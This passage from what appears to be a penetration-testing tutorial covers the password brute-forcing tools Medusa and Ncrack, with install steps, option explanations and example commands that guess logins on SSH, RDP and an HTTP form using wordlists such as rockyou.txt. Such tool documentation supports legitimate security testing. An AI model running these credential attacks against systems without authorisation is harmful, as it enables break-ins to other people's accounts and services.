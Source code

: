 #### Installation:
```bash
sudo apt-get update
sudo apt-get install medusa -y
```

#### Usage Example:
**Brute-Forcing an SSH Login**
```bash
medusa -h <target_ip> -u admin -P /usr/share/wordlists/rockyou.txt -M ssh
```

**HTTP Login Attack**
```bash
medusa -h <target_ip> -U usernames.txt -P passwords.txt -M http -m FORM:/login.php -m POSTDATA:"username=^USER^&password=^PASS^"
```

**Options Breakdown:**
- `-h`: Target IP or hostname.
- `-U`: Username file.
- `-P`: Password file.
- `-M`: Service module (e.g., SSH, HTTP).
- `-m`: Additional parameters (e.g., form fields or POST data).

---

### **3. Ncrack**
Ncrack is designed to brute-force network authentication services with high performance and modular flexibility.

#### Key Features:
- Specifically targets network protocols like RDP, SSH, FTP, Telnet, HTTP(S), and more.
- Fine-grained control over timing and parallelism.
- Integrates well with `Nmap` for reconnaissance.

#### Installation:
```bash
sudo apt-get update
sudo apt-get install ncrack -y
```

#### Usage Example:
**Cracking SSH Logins**
```bash
ncrack -p 22 -u admin -P /usr/share/wordlists/rockyou.txt <target_ip>
```

**Cracking RDP Logins**
```bash
ncrack -p 3389 -u admin -P passwords.txt <target_ip>
```

**Options Breakdown:**
- `-p`: Specify the target port.
- `-u`: Specify the username.
- `-P`: Specify the password list.

---